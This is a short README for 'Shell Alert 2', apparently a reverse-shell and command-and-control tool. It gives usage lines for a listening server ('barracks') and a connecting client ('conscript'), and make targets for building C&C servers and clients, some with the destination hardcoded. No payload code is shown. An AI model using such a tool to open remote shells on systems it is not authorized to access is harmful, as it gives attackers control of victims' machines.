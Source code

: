 # Shell Alert 2

Based of the work done by [adedayo](https://github.com/adedayo/reverse-shell).

## Usage

server (`barracks`)

```bash
barracks <port to listen on>
```

client (`conscript`)

```bash
conscript <ip/hostname of barracks> <port of barracks>
```

## Build

Build C&C servers to `./bin/buildings` 

```
make buildings
```

Build clients to `./bin/units` 

```
make units
```

**Note:** units_harcoded have their destination set within the build package. Update the `Makefile` to match your destination.

Build everything

```
make all
```
